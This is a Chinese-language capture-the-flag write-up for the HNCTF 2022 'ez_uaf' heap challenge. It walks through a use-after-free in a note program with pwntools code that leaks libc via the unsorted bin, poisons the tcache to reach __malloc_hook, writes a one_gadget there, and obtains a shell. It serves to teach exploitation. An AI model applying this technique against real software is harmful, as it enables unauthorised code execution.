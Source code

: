 # [HNCTF 2022 WEEK4] ez_uaf

`UAF`|`unsortedbin`|`leak`

```shell
[*] '/home/bamuwe/ez_uaf/ez_uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $ checksec ./ez_uaf

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> $ ./ez_uaf

```c
__int64 delete()
{
  __int64 result; // rax
  signed int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && *(*(&heaplist + v1) + 28LL) )
  {
    free(*(*(&heaplist + v1) + 16LL));
    free(*(&heaplist + v1));
    result = *(&heaplist + v1);
    *(result + 28) = 0;
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
  return result;
}
```

> delete()漏洞函数,没有清除指针

```python
def add(size,name,content):
    io.sendlineafter(b'Choice: \n',b'1')
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendafter(b'Name: \n',name)
    io.sendafter(b'Content:\n',content)

def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(int(idx)))

def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    
def edit(idx,content):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    io.send(content)
```

> 交互函数

程序逻辑:

1. `add()`一个`chunk`
2. `free()`这个区块后仍然可以对这个区块进行`edit()`,`show()`

利用思路:

1. 利用unsortbin指向自身的特点,泄露出`main_arena`的地址,进而泄露出`__malloc_hook`的地址

   ```python
   add(0x410,b'a',b'a')    #0
   add(0x20,b'b',b'1111')  #1						#后续利用的chunk
   add(0x10,b'c',b'c')     #2						#后续利用的chunk
   free(0)                                         #unsortbin指向自身
   show(0)
   #leak_libc
   io.recvuntil(b'\n')
   malloc_hook_addr = u64(io.recv(6).ljust(8,b'\x00'))-96-16
   success(f'malloc_hook_addr=> {hex(malloc_hook_addr)}')
   lib_offset = malloc_hook_addr - lib.sym['__malloc_hook']
   one_gadgets_addr = 0x10a2fc+lib_offset			#后续利用
   ```

   ![image-20240430195924018](./../../AppData/Roaming/Typora/typora-user-images/image-20240430195924018.png)

2. 释放`chunk1`并且修改`chunk1`的`fd`的地址为`__malloc_hook`的地址,制造`fake_chunk`

   ```python
   free(1)
   edit(1,p64(malloc_hook_addr))       # 修改fd
   ```

   ![image-20240430200315872](./../../AppData/Roaming/Typora/typora-user-images/image-20240430200315872.png)

3. 利用`fake_chunk`修改`__malloc_hook` 的内容为`one_gadget`,重新`add()`一个`chunk`得到`shell`

   ```python
   add(0x10,b'2',b'2')     #3          #tcachebin规则          
   add(0x20,b'3',b'3')     #4        #fake_chunk,地址为malloc_hook_addr
   edit(4,p64(one_gadgets_addr))
   
   io.sendlineafter(b'Choice: \n',b'1')
   io.sendlineafter(b'Size:\n',b'0x20')
   ```

   提到`tcachebin`规则,由上图可知,当前`tcachebin`在`malloc_hook`之前还有两个堆块,所以我们要填充再利用

关于`unsortedbin`:

> 1.当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
>
> 2.释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。
>
> 3.当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。

